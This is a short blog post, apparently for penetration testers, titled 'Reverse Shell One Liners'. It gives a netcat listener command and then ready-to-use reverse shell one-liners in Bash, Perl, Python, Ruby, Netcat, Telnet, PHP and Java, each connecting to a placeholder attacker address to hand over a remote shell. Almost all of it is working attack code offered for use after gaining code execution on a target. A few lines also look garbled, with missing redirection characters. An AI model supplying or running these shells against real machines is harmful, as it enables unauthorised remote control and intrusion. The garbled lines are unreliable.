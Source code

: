 ```yaml
---
layout: post
title: Reverse Shell One Liners
---
```


There might be several occasions where you might have code execution on a target machine and you sit there wondering what to do next.

Well here is what you can do. Setup **netcat** listener on port **4444**. 
```bash
nc -nvlp 4444
```
Bash
```bash
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done

bash -i >& /dev/tcp/attackerip/4444 0>&1
```
<!-- more -->
Perl
```perl
//Does not depend on /bin/sh
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

//Windows target
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

//Could try this one also. (*nix /bin/sh)
perl -e 'use Socket;$i="attackerip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Ruby
```ruby
//Does not depend on /bin/sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

//Windows Target
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

//*nix /bin/sh
ruby -rsocket -e'f=TCPSocket.open("attackerip",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
Netcat
```bash
nc attackerip 4444 -e /bin/sh
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```
Telnet
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
Or:
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
# Setup listener on attcker machine on port 4445/tcp
```
PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
# This code assumes that the TCP connection uses file descriptor 3. 
# If it doesn’t work, try 4, 5, 6…
```
Java Reverse Shell
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
